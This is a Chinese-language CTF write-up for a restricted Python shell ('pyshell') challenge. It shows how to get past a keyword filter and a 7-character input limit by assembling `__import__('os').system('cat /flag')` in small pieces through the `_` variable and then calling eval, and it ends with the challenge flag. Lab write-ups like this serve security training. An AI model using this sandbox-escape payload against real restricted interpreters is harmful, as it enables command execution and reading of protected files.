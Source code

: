 # 题目描述

flag在/flag，每个容器只支持同时连接一个客户端。部分指令可能导致容器无响应，如果出现这样的情况请重启题目环境

# 解题思路

下发题目，得到一个nc连接的地址，用nc命令连接

![image-20240221135952641](./img/pyshell/image-20240221135952641.png)

可以看到是一个类似的`shell`窗口，查询得知这是CTF中的伪`python shell`题目；

> 伪Python shell是指一种CTF（Capture The Flag）中的题目类型，它要求我们在一个受限制的Python环境中执行代码，从而获取flag。伪Python shell的特点和作用是考察我们对Python语言的熟悉程度和逆向能力，以及如何利用Python的一些特性来绕过沙箱限制。解决这样的CTF题目的方法有很多，具体取决于题目的限制条件和漏洞点，一般需要利用字符串拼接、类静态方法、反序列化、系统命令等技巧来构造有效的payload。
>



输入一些命令发现全是输出`nop`，根据题目描述，`flag`在`' /flag '`中，所以我们的思路是思路是通过输入python代码执行`shell`命令但是题目过滤了这些命令（如`import print`等）。并且一次发现只能输入7个字符（包括`''`）

![image-20240221141236205](./img/pyshell/image-20240221141236205.png)

所以我们换一个查询思路：`__import__('os').system('cat /flag')`

并且因为题目限制了每次输入的字符数，所以我们需要通过`_+`来连接每次输入的代码：

```python
'__imp'
_+'ort'
_+'__('
_+"'os"
_+"')."
_+"sys"
_+"tem"
_+"('c"
_+"at "
_+"/fl"
_+"ag'"
_+")"
eval(_)
```

> '_'+ 表示在下一个字符串拼接操作之前对字符串进行了临时的拼接操作。例如，代码中的 `_+'ort'` 实际上是 `_ + 'ort'`，表示将上一个字符串 `_` 与 `'ort'` 进行拼接。这种形式的字符串拼接操作用于在代码中以一种连贯的方式构建出整个字符串。

得到`flag{80f772f1-6740-4571-87ba-cf6b3db34581}`

![image-20240221141724401](./img/pyshell/image-20240221141724401.png)


